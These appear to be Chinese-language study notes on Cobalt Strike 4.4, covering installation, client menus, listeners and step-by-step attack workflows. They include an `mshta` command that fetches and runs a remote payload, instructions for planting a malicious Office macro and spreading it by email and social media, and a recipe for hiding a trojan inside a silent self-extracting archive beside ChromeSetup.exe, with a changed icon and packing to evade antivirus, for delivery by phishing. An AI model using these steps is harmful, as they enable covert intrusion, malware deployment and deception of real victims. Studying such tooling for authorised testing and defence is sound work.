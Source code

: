 简称CS, 是一款团队作战的跨平台渗透工具, 可以用来进行横向移动, 数据窃取, 鱼叉式钓鱼的后渗透工具, 分为客户端和服务端, 一个客户端可以连接多个服务端, 一个服务端也可以被多个客户端连接.

CS主要用来后期持久渗透, 横向移动, 流量隐藏, 数据窃取. 当攻击方在目标机器上执行了CS的payload, 它会创建一个Beacon(远程木马功能)回连到C2服务器

### 目录结构 (CS4.4)
- agscript: 拓展应用的脚本
- c2lint: 用于检查profile的错误异常
- teamserver: 服务端程序
- Teamserver: 
- cobalstrike, cobalstrike.jar: 客户端程序(java跨平台)
- logs: 目录记录与目标主机的相关信息
- update, update.jar: 用于更新CS
- third-party: 第三方工具dll
- peclone: 用于解析ddl的程序

## CS安装和启动
- 需要有Java运行环境
- Linux
	1. 下载软件包并进入目录下
	2. 添加`teamserver`的执行权限
	3. 启动服务端(wscript) `./teamserver [SERVER_IP] [PASSWORD]`
	4. 启动客户端 `./cobaltstrike`
- Windows(客户端)
	- `java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -Xms512M -Xmx1024M -jar cobaltstrike.jar`
	- 可以写成脚本自动化启动

### 客户端登录
- Alias: 别名, 用户名@服务端IP
- Host: 服务端IP或域名
- Port: 服务端端口号, 默认`50050`
- User: 用户名, 随意填写不可重复
- Password: 登陆密码, 在启动服务端时设置

### 快捷工具栏
![[Pasted image 20220813223725.png]]
1. 链接到一个团队服务器
2. 断开服务器连接
3. 查看所有监听器
4. 切换为povot图列表 (服务器节点视图)
5. 切换为会话列表
6. 切换为目标列表
7. 查看凭据信息
8. 查看下载文件
9. 查看键盘记录
10. 查看屏幕截图
11. 生成stageless的exe木马文件
12. 设定java自签名的applet程序攻击
13. 生成恶意Office宏攻击
14. 建立web delivery
15. 在web服务器上托管文件
16. 管理在web服务器上的应用和文件
17. 帮助
18. 关于

#### 监听器Listener
1. 内部beacon
	- Beacon DNS
	- Beacon HTTP
	- Beacon HTTPS
	- Beacon SMB
	- Beacon TCP
2. 外部beacon(与其它工具联合时使用)
	- Foreign HTTP
	- Foreign HTTPS

### Cobalt Strike菜单
- New Connection: 新建连接, 支持连接多服务端
- Preferences: 设置CS界面, 控制台以及输出报告样式, TeamServer连接记录
- Visualization: 主要展示输出结果的形式
- VPN Interfaces: 设置VPN接口
- Listeners: 创建一个Listener
- Script Manager: 脚本管理
- Close: 退出连接

### View菜单
- Applications: 显示目标主机的应用信息, 浏览器版本信息等
- Credentials: 显示所有以获取的目标主机的凭证, 如使用hashdump, Mimikats获取到的密码凭证信息
- Downloads: 查看已下载文件
- Event Log: 主机上线记录以及团队协作聊天记录
- Keystrokes: 查看键盘记录结果
- Proxy Pivots: 查看代理模块
- Screenshots: 查看所有屏幕截图
- Script Console: 脚本控制台, 加载第三方脚本以增强功能
- Targets: 显示所有目标主机
- Web Log: 所有访问Web服务的日志记录

### 攻击Attacks
- Packages:
	- HTML Application 生成.hta HTML应用程序
	- MS Office Macro 生成恶意宏放入office文件
	- Payload Generator 生成各种语言版本的payload
	- Windows Executable 可执行文件 默认x86, x64可选
	- Windows Executable(S) stageless生成全功能被控端(无阶段木马)
- Web Drive-by:
	- Manage 管理当前Team Server开启的所有web服务
	- Clone Site 克隆某网站
	- Host File 在Team Server的某端口提供Web以供下载某文件
	- Scripted Web Delivery 为payload提供web服务以便于下载和执行
	- System Profilter 用来获取系统信息:系统版本, Flash版本, 浏览器版本等

## VBScript脚本基础
https://www.runoob.com/vbscript/vbscript-tutorial.html


## HTML Application
1. 生成 *.hta文件* (Beacon HTTP): 生成一个payload, 有三种执行模式可选: 
	- *Executable*: 以十六进制的方式内嵌一个EXE到HTA中, 运行时会把exe释放到磁盘然后创建进程运行
	- *Powershell*: HTA调用`powershell.exe`执行payload
	- *VBA*: 通过调用`COM组件`执行payload (目标主机需有Office的`Excel.Application`组件) https://blog.csdn.net/weixin_45797022/article/details/105400270
2. 提供端口下载文件(Host File): 为server设置一个端口, 供靶机下载hta文件, URI路径可以任意设置如 `http://<IP>:<PORT>/<PATH>/<file>.ext`
3. 目标执行远程命令: 端口设置后会生成一个地址, 在靶机(win)用`mshta`命令执行 `mshta http://192.168.81.172:801/download/file.ext`
4. 目标以任何形式运行了payload, 靶机上线
### 操控目标机器 (Windows)
- 当有目标主机以任何方式运行了生成的被控端, 出现在主机列表, 选中要操作的目标主机, 右键interact进入交互命令界面, 在此Beacon Commands对目标主机执行各种操作
	- 设置sleep: 设置每次执行命令的时间间隔, 默认60, 可以设为0
	- 执行shell命令 shell ipconfig
	- help
- 文件管理: 右键Explore->File Browser
	- "List Drivers" 列出所有盘符
	- 右键文件Download, 在视图->文件下载- >SyncFiles下载并取出文件
- 远程桌面: 右键Explore->Desktop
- 任务管理器: 右键Explore->Process List, 列出所有目标机上的进程
- 屏幕截图: 右键Explore->screenshot, 在视图->屏幕截图中下载并取出图片

## MS Office Macro 宏病毒 
1. 为文档添加宏, 保存
	1. 生成木马->Office宏木马->选择监听器生成
	2. 打开任意office文件, Excel or Word
	3. 在office中点击视图->宏->输入宏名->创建宏
	4. 选择宏的位置为当前文档(ThisDocument)
	5. 点击CS中的copy Macro粘贴到宏命令处->创建
	6. Office可能提示"以下内容无法保存在未启用宏的文档中"选择否, 另存为**docm文件**
2. 上传至目标机器, 目标机点击后上线
	- 通过互联网邮箱, 社交媒体, 论坛传播
	- 诱导点击
	- 目标机上的Office需要启用宏功能

## Payload Generator


## 生成后门木马 - Windows Executable
1. 生成可执行文件监听器(Windows Executable)
2. 使用一个正常可用的exe程序, 与生成的木马文件共同压缩勾选"Create SFX archive"选项, 然后点击高级选项(Advance)
	- General->选择自解压目录为"C:/Users/Public"
	- Modes->静默解压(Hide all)
	- Setup->解压后自动运行->"C:\\Users\\Public\\xxx.exe"; 换行"C:\\Users\\Public\\ChromeSetup.exe 先执行木马文件
	- Update->"Extract and update files"; "Overwrite all files"
3. 更改名称, 更改图标(使用restorator), 免杀还可以选择加壳
4. 上传至目标机器
	- 通过webshell上传, 运行
	- 通过互联网传播, 钓鱼